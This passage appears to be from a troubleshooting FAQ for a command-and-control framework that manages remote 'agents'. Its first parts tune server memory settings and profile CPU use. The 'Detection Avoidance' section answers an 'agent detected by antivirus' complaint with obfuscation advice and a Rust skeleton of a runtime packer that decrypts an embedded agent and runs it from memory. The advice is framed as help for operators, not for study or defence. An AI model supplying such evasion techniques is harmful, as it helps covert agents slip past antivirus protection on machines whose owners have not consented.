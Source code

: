 #### Q: "Server running out of memory"
**A:** Configure memory limits and garbage collection:

```toml
[grpc_server]
max_connections = 1000  # Limit concurrent connections
max_message_size = 16777216  # 16MB message limit

[agent_management]
inactive_agent_timeout = 300  # 5 minutes
cleanup_interval = 60  # Clean up every minute
max_agents_per_server = 5000
```

### High CPU Usage

#### Q: "CPU usage consistently high"
**A:** Profile and optimize performance:

```bash
# Profile the server
perf record -g ./target/release/nexus-server --config nexus.toml
perf report

# Check for infinite loops in agents
ps aux | grep nexus-agent
strace -p AGENT_PID

# Optimize configuration
vim nexus.toml  # Increase intervals, reduce polling frequency
```

## Security Issues

### Detection Avoidance

#### Q: "Agent detected by antivirus"
**A:** Enhance obfuscation and evasion:

```rust
// Add runtime packer
use std::process::Command;

fn runtime_unpack() -> Result<(), std::io::Error> {
    // Decrypt and load agent in memory
    let encrypted_agent = include_bytes!("encrypted_agent.bin");
    let key = derive_runtime_key();
    let decrypted = decrypt_agent(encrypted_agent, &key)?;
    
    // Load into memory and execute
    execute_from_memory(&decrypted)?;
    Ok(())
}
```
